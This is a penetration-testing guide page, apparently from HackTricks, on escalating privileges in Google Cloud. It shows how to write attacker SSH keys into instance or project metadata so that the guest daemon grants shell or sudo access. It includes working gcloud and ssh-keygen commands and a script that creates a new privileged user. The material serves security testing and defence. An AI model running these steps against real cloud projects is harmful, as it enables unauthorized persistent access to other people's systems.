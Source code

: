# GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{{#include ../../../../banners/hacktricks-training.md}}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **significant security risks if an attacker gains the necessary permissions**.

#### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **regularly check** the instance metadata endpoint for **updates to the authorized SSH public keys**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **integrated into the local system**. The key will be added into `~/.ssh/authorized_keys` file of an **existing user or potentially creating a new user with `sudo` privileges**, depending on the key's format. And the attacker will be able to compromise the host.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**

   - Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

     ```bash
     gcloud compute instances describe [INSTANCE] --zone [ZONE]
     ```

   - Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.

2. **Prepare a Text File for SSH Key Metadata:**
   - Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**

   - Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

     ```bash
     ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
     ```

   - Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.

4. **Update the Instance's SSH Key Metadata:**

   - Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

     ```bash
     gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
     ```

5. **Access the Instance Using the New SSH Key:**

   - Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

     ```bash
     ssh -i ./key alice@localhost
     sudo id
     ```

#### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:

```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```

#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

It's possible to broaden the reach of SSH access to multiple Virtual Machines (VMs) in a cloud environment by **applying SSH keys at the project level**. This approach allows SSH access to any instance within the project that hasn't explicitly blocked project-wide SSH keys. Here's a summarized guide:

1. **Apply SSH Keys at the Project Level:**

   - Use the `gcloud compute project-info add-metadata` command to add SSH keys from `meta.txt` to the project's metadata. This action ensures that the SSH keys are recognized across all VMs in the project, unless a VM has the "Block project-wide SSH keys" option enabled.

     ```bash
     gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
     ```

2. **SSH into Instances Using Project-Wide Keys:**
   - With project-wide SSH keys in place, you can SSH into any instance within the project. Instances that do not block project-wide keys will accept the SSH key, granting access.
   - A direct method to SSH into an instance is using the `gcloud compute ssh [INSTANCE]` command. This command uses your current username and the SSH keys set at the project level to attempt access.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}




